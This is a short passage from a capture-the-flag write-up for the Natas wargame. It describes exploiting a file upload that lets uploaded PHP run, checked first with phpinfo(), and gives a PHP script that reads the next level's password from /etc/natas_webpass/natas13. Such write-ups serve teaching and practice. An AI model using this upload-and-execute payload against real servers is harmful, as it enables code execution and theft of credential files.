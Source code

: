 ![Embeded](/images/natas/screen6.png)
[FullSize](/images/natas/screen6.png)

When we upload our test.php file we are taken to a link and when we open that link phpinfo() executes and shows us the information we need. Now all we need to do is rewrite this script and have it read the file we specifically need.

{% highlight php %}
<?php
$myfile = fopen("/etc/natas_webpass/natas13", "r") or die("Unable to open file!");
echo fread($myfile,filesize("/etc/natas_webpass/natas13"));
fclose($myfile);
?>
{% endhighlight %}
